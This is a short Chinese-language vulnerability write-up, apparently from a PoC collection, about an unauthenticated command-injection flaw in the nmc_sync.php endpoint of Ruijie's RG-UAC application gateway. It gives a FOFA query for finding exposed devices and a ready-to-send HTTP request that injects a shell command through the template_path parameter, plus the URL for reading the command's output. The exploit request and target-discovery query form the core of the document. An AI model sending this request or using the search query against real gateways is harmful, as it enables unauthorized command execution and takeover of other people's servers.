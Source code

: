 # 锐捷RG-UAC应用网关nmc_sync.php前台RCE漏洞

### 一、漏洞描述
<font style="color:rgba(0, 0, 0, 0.9);">锐捷RG-UAC应用管理网关 nmc_sync.php 接口处存在命令执行漏洞，未经身份认证的攻击者可执行任意命令控制服务器权限。</font>

### 二、影响版本
锐捷RG-UAC应用网关

### 三、资产测绘
fofa：app="Ruijie-RG-UAC"

特征：

![1708679452594-4ac22429-3b10-4a58-8ee3-d7d42244c115.png](./img/iuhRqqHjm3R_IJCE/1708679452594-4ac22429-3b10-4a58-8ee3-d7d42244c115-825054.png)

### 四、漏洞复现
```plain
GET /view/systemConfig/management/nmc_sync.php?center_ip=127.0.0.1&template_path=|whoami%20>dudesuite.txt|cat HTTP/1.1
Host: xxx
Accept-Encoding: gzip
```

![1708679288910-596012c6-d177-41dc-a2b2-8cf937685e25.png](./img/iuhRqqHjm3R_IJCE/1708679288910-596012c6-d177-41dc-a2b2-8cf937685e25-057665.png)

访问：https://xxx/view/systemConfig/management/dudesuite.txt

![1708679132388-d1d1e207-cb68-40d9-8fb6-210f1fd42355.png](./img/iuhRqqHjm3R_IJCE/1708679132388-d1d1e207-cb68-40d9-8fb6-210f1fd42355-882522.png)



> 更新: 2024-06-24 11:42:29  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ex5ms24mq3tyi9wb>